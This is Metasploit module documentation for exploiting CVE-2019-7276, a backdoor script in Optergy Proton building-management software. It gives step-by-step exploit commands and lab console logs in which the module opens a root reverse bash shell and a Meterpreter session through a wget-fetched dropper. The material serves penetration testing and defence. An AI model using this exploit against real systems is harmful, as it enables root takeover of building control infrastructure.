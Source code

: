 ## Vulnerable Application

This module exploits an undocumented backdoor vulnerability (CVE-2019-7276) in the Optergy Proton and Enterprise
Building Management System (BMS) applications. Versions `2.0.3a` and below are vulnerable.
Attackers can exploit this issue by directly navigating to an undocumented backdoor script called `Console.jsp`
in the tools directory and gain full system access.
Successful exploitation results in `root` command execution using `sudo` as user `optergy`.

Please check out this [AttackerKB Article](https://attackerkb.com/topics/QrYFIjnd3J/cve-2019-7276) for more info.

Installing a vulnerable test bed requires a Linux or Windows machine with the vulnerable software loaded.
Follow instructions [Optergy OVA Download](https://github.com/h00die-gr3y/Metasploit/tree/main/images),
to download an OVA image with a vulnerable Optergy Proton application (v2.0.3a) installed.

This module has been tested against a Optergy Proton installation with the specifications listed below:

* Optergy Proton
* Version: `2.0.3a`
* Linux OS: Debian 7.11

## Verification Steps

1. `use exploit/linux/http/optergy_bms_backdoor_rce_cve_2019_7276`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command, 1-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the target and payload settings.

## Options
No additional options.

## Scenarios

### Optergy Proton 2.0.3a on Debian Linux 7.11 - bash reverse shell
```
msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > check
[+] 192.168.201.31:80 - The target is vulnerable.
msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > options

Module options (exploit/linux/http/optergy_bms_backdoor_rce_cve_2019_7276):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.201.31   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploi
                                       t/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an addres
                                       s on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.201.10   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 1 opened (192.168.201.10:4444 -> 192.168.201.31:43322) at 2023-03-22 12:45:22 +0000

whoami
root
uname -a
Linux debian 3.2.0-4-amd64 #1 SMP Debian 3.2.96-2 x86_64 GNU/Linux
exit
[*] 192.168.201.31 - Command shell session 1 closed.
```
### Optergy Proton 2.0.3a on Debian Linux 7.11 - Linux Dropper Meterpreter session
```
msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > set target 1
target => 1
msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > options

Module options (exploit/linux/http/optergy_bms_backdoor_rce_cve_2019_7276):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.201.31   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploi
                                       t/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an addres
                                       s on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.201.10   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[-] Exploit failed [bad-config]: Rex::BindFailed The address is already in use or unavailable: (0.0.0.0:8080).
[*] Exploit completed, but no session was created.
msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.10:8080/JKGheHgpr9TQf
[*] Client 192.168.201.31 (Wget/1.13.4 (linux-gnu)) requested /JKGheHgpr9TQf
[*] Sending payload to 192.168.201.31 (Wget/1.13.4 (linux-gnu))
[*] Sending stage (3045348 bytes) to 192.168.201.31
[*] Meterpreter session 2 opened (192.168.201.10:4444 -> 192.168.201.31:43377) at 2023-03-22 12:46:57 +0000
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.201.31
OS           : Debian 7.11 (Linux 3.2.0-4-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > exit
```

## Limitations
No limitations identified.
